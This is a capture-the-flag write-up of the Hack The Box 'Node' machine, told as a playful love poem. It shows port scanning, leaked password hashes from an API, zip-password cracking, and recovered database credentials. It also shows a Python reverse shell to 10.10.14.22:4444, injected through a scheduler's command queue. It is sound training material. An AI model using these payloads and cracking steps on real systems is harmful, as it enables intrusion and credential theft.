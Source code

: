 ```yaml
---
layout: post
title:  "Hack the Box - A Love Node"
date:   2018-03-07 16:16:01 -0600
categories: hackthebox nosql webapp reversing mongo mongodb hacking writeup
---
```


<img class="header-img" src="{{ "img/node/home.png" | relative_url }}" />

Node was a special box for me. It was a special box because it was my first "first blood", and thus got me truly addicted to [hackthebox](https://hackthebox.eu). In light of this, I'm going mix things up and bit and make the following writeup a "love" note to Node:

Oh, Node,
it has been some time since we last spoke.
It's been a while since my sweet TCP packets,
probed your open ports.

{% highlight shell %}
root@hack ~# nmap -p- -T4 node.htb
3000/tcp    open  
{% endhighlight %}

You rebuffed my attempts on 80. On 8080, 443, and more.
But you invited me into your space, into yourplace, into port 3000.
Yes, you did.

I dug into your deepest secrets.
And into the APIs which b(urp)equeathed your user sequence.
I saw you clearly, inside and out; cut through your defences:
turned `/api/users/latest` to `/api/users` and saw your shy response:

{% highlight shell %}
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 611
ETag: W/"263-mJMXKDfX6c4pdWF3bLjHuBIvsM0"
Date: Wed, 07 Mar 2018 13:51:16 GMT
Connection: close

[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true},{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
{% endhighlight %}

Were these your past lovers? I cared not.
But an `admin` flag, is an `admin` flag, and must be followed. Its hash looked weak.
Indeed, it was. ["manchester"](https://crackstation.net).

With each keystroke, we grew closer
m.y.P.1.4.c.e.A.d.m.1.n.A.c.c.0.u.N.T.
m.a.n.c.h.e.s.t.e.r.

You offered me your memories encoded in mystery. I was undeterred.

{% highlight shell %}
root@hack ~/Downloads# base64 -d myplace.backup > myplace.what
root@hack ~/Downloads# file myplace.what
myplace.what: Zip archive data, at least v1.0 to extract
{% endhighlight %}

But still, you resisted me.

{% highlight shell %}
root@hack ~/Downloads# unzip myplace.what
Archive:  myplace.what
  creating: var/www/myplace
[myplace.what] var/www/myplace/package-lock.json password:
{% endhighlight %}

{% highlight shell %}
root@hack ~/Downloads# fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt myplace.what
PASSWORD FOUND!!!!: pw == magicword
root@hack ~/Downloads# unzip -P magicword myplace.what
rock@hack ~/Downloads# head -n 11 var/www/myplace/app.js | tail -n 1
const url        = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
{% endhighlight %}

Who was this `mark`? I wondered. What boundries had you let him pass?
Nevermind. I had his secret, and he made a mistake, leaving this behind.

{% highlight shell %}
root@hack ~# ssh mark@node.htb
mark@node ~$
{% endhighlight %}

Node. My sweet Node. I felt so close to you. 
We were separated by miles and miles, but I could feel your circuits responding to my touch.
I explored every inch of you, and found a special spot:

{% highlight shell %}
root@hack ~# ps aux
...
tom     1426    0.0 5.1 1009080 31096   ?   ?   Ssl Mar04   0:31    /usr/bin/node /var/scheduler/app.js
...
mark@node:~$ cat /var/scheduler/app.js
const exec        = require('child_process').exec;
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';

MongoClient.connect(url, function(error, db) {
  if (error || !db) {
    console.log('[!] Failed to connect to mongodb');
    return;
  }

  setInterval(function () {
    db.collection('tasks').find().toArray(function (error, docs) {
      if (!error && docs) {
        docs.forEach(function (doc) {
          if (doc) {
            console.log('Executing task ' + doc._id + '...');
            exec(doc.cmd);
            db.collection('tasks').deleteOne({ _id: new ObjectID(doc._id) });
          }
        });
      }
      else if (error) {
        console.log('Something went wrong: ' + error);
      }
    });
  }, 30000);

});
{% endhighlight %}

You accepted me, and I inserted my hopes and dreams....

{% highlight shell %}
mark@node ~$ cat << EOM > /tmp/over.py
> import socket,subprocess,os
> s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
> s.connect(('10.10.14.22',4444))
> os.dup2(s.fileno(),0)
> os.dup2(s.fileno(),1)
> os.dup2(s.fileno(),2)
> p=subprocess.call(['/bin/sh','-i'])
> EOM
mark@node ~$ mongo
> use scheduler
switched to db scheduler
> db.auth("mark","5AYRft73VtFpc84k")
1
> db.tasks.insert({"_id": 1, "cmd":"python /tmp/over.py"})
WriteResult({ "nInserted" : 1 })
{% endhighlight %}

...and I tasted your luscious blood. 

{% highlight shell %}
root@hack ~# nc -lvvvp 4444
$ whomai
tom
{% endhighlight %}

You still had more secrets to find, like `/usr/local/bin/backup`.
In reversing it, I `unzip`ed your last garment -
unveiling your inner soul, `root.txt`, in whole.
You were so beautiful, so clever, and so true.
How I loved your mysteries -- unfortunately, there were more boxes to do.

your dearest,
overcast

p.s. if you'd like to know how `/usr/local/bin/backup` fell to my wiles,
look to `ltrace` 


_fin_
